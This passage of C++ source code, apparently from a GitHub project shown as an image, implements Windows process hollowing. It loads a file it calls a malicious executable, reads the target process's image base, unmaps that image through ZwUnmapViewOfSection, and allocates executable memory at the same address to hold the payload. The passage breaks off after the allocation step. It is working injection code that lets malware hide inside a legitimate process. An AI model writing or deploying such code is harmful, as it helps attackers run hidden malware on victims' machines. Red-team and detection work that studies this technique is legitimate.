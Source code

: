 ```text

	CloseHandle(hMaliciousCode);
	cout << "[+] Read malicious exe into memory at: 0x" << pMaliciousImage << endl;


	//#########################################################################
	//get thread context to access register values EAX, EBX 
	c.ContextFlags = CONTEXT_INTEGER;
	GetThreadContext(target_pi->hThread, &c);

	//Find base address of Target process
	PVOID pTargetImageBaseAddress;
	ReadProcessMemory(
		target_pi->hProcess,
		(PVOID)(c.Ebx + 8),
		&pTargetImageBaseAddress,
		sizeof(PVOID),
		0
	);
	cout << "[+] Target Image Base Address : 0x" << pTargetImageBaseAddress << endl;


	//#########################################################################
	//Hollow process 
	HMODULE hNtdllBase = GetModuleHandleA("ntdll.dll");
	pfnZwUnmapViewOfSection pZwUnmapViewOfSection = (pfnZwUnmapViewOfSection)GetProcAddress(hNtdllBase, "ZwUnmapViewOfSection");


	DWORD dwResult = pZwUnmapViewOfSection(target_pi->hProcess, pTargetImageBaseAddress);
	if (dwResult) {
		cout << "[!] Unmapping failed." << endl;
		TerminateProcess(target_pi->hProcess, 1);
		return 1;
	}

	//cout << "Result: " << dwResult << endl;
	cout << "[+] Process successfully hollowed at Image Base: 0x"<<pTargetImageBaseAddress<< endl;


	//#########################################################################
	//get Malicious image size from NT Headers
	PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pMaliciousImage;
	PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew);

	DWORD sizeOfMaliciousImage = pNTHeaders->OptionalHeader.SizeOfImage;
	
	cout << "[+] Malicious Image Base Address: 0x"<<pNTHeaders->OptionalHeader.ImageBase<<endl;
	

	PVOID pHollowAddress = VirtualAllocEx(
		target_pi->hProcess,
		pTargetImageBaseAddress,
		sizeOfMaliciousImage,
		0x3000,
		0x40
	);
	if (pHollowAddress == NULL) {
		cout << "[!] Memory allocation in target process failed. Error: "<<GetLastError() << endl;
		TerminateProcess(target_pi->hProcess, 0);
		return 1;
	}
```